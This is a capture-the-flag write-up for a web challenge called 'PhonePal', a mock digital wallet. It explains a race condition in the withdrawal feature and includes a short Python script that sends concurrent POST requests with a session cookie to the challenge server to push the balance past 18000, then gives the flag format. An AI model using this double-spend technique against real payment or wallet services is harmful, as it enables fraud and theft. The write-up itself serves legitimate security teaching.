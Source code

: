 # PhonePal

Total Solves - 36

Final Points - 281

## Description
I made my own digital wallet. However, I have to give out tokens to attract customers.

## Writeup

On logging in, you see a single page app, with option to withdraw money and add it to wallet. If you try withdrawing, you will notice a small lag. This should be taken as a hint for solving the problem - Race Condition.

The application takes time, to actually change the balance in the database, so if a parallel request is sent to the server at the same time, the balance due to previous request is not yet reduced and both requests go through.

You can send the multiple requests using multiple techniques using Python concurrency, C threading, curl or BurpSuite. For this PoC, I will be using python concurrency.

```python
import requests
from concurrent.futures import ThreadPoolExecutor

def send_req(id):
    data = {'amount': 9000}
    cookies = {'session':'eyJzZXNzaW9uX2lkIjoiNjg1YjA3NjMtY2VkMi00YWM4LThiZjMtNDg1NmI0NzUzZTJhIn0.Z5ZUNQ.TV5xrNZDZ1DYpqe-35_5juYgtXM'}
    r = requests.post('http://codefest-ctf.iitbhu.tech:21870/', cookies=cookies, data=data)

MAX_THREADS = 5

ids = [i for i in range(0, 5)]

with ThreadPoolExecutor(max_workers=MAX_THREADS) as executor:
    executor.map(send_req, ids)
```

You will see that the wallet balance increased to more than 18000. The flag will be displayed.

## Flag
`CodefestCTF{r4c3_c0nd1t10n_4lw4y5_ftw_[a-zA-Z0-9]{8}}`